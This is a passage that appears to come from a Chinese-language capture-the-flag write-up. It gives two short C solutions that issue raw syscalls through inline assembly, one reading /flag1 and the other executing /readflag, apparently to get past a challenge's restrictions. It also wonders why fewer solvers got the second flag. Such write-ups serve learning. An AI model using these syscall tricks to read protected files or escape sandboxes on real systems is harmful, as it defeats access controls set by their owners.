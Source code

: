 * Flag 1

```c
#include <stdio.h>
int main() {
    int tmp;
    const char buffer[256] = {'/', 'f', 'l', 'a', 'g', '1', '\0'};

    __asm__ __volatile__ (
        "syscall"
        : "=a"(tmp)
        : "0"(2 /* SYS_open */), "D"(buffer), "S"(0 /* O_RDONLY */)
        : "memory"
    );

    __asm__ __volatile__ (
        "syscall"
        : "=a"(tmp)
        : "0"(0 /* SYS_read */), "D"(tmp), "S"(buffer), "d"(sizeof(buffer))
        : "memory"
    );

    printf("%s\n", buffer);

    return 0;
}
```

* Flag 2

```c
#include <stdio.h>

int main() {
    int tmp;
    const char buffer[256] = {'/', 'r', 'e', 'a', 'd', 'f', 'l', 'a', 'g', '\0'};

    __asm__ __volatile__ (
        "syscall"
        : "=a"(tmp)
        : "0"(59 /* SYS_execve */), "D"(buffer), "S"(0), "d"(0)
        : "memory"
    );

    printf("%s\n", buffer);

    return 0;
}
```

&emsp;&emsp;以及为什么拿到这两个 Flag 的人数会相差这么多，难道还有什么别的解法么🤔

## 蒙特卡罗轮盘赌
